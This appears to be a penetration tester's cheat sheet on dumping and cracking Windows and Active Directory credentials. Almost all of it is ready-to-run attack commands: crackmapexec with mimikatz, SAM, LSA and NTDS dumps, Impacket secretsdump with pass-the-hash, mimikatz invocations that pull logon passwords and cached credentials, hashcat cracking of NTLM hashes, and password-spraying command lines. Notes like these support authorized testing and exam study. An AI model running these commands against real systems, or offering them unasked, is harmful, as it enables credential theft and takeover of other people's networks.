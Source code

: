          fgdump.exe
         /usr/share/windows-binaries/fgdump/fgdump.exe

## Dump the credentials of all connected users, including cached hashes
### Kali Crackmapexec
         sudo crackmapexec smb -M mimikatz 192.168.1.54 -u ippsec -Password12345
         sudo crackmapexec smb -M mimikatz 192.168.1.54 -u ippsec -Password12345 --server-port 444
         sudo crackmapexec smb 192.168.1.54 -u ippsec -p Password12345 --sam
         sudo crackmapexec smb 192.168.1.54 -u ippsec -p Password12345 --lsa
         sudo crackmapexec smb 192.168.1.50 -u jenkinsadmin -H ffffffffffffffffffffffff --ntds
         stored in (for sudo): `cat /root/.cme/logs/Mimikatz-192.168.1.54.log
         stored in (for non-sudo): `cat ~/cme/logs/Mimikatz-192.168.1.54.log
### Kali Impacket
         secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
         secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
         secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
         impacket-secretdump exam.com/apachesvc@192.168.1xx.101
         
### Local (privilege::debug, sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here)

         ./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > dumped_pwds.txt
         PS C:\users\public > mimikatz.exe "token::elevate" "privilege::debug" "lsadump::sam" "exit" > sam.txt
         ./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"

## Dumping AD Domain Credentials
Dumping AD Domain Credentials
You will need the following files to extract the ntds :
- NTDS.dit file
- SYSTEM hive (C:\Windows\System32\SYSTEM)
```
cme smb 10.10.0.202 -u username -p password --ntds vss
```


## Cracking AD Hashes

         ntlm:   hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
         ntlmv2: hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

## Password Spraying

- Spray with Crackmapexec using known password on list of found usernames
```bash
# Crackmapexec uses SMB - check if the output shows 'Pwn3d!' Pwn3d!== that account pawned as admin access!
# For Crackmapexec, try spray with and without --local-auth
# protocols = smb, winrm, 
# --continue-on-success to avoid stopping at the first valid credentials.
# when spraying with cme, also remember to do domain (-d lab.local) and local (--local-auth)
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2 --no-bruteforce
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords  --continue-on-success 
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --continue-on-success
        e.g. crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success #use continue-on-success option if it's subnet
```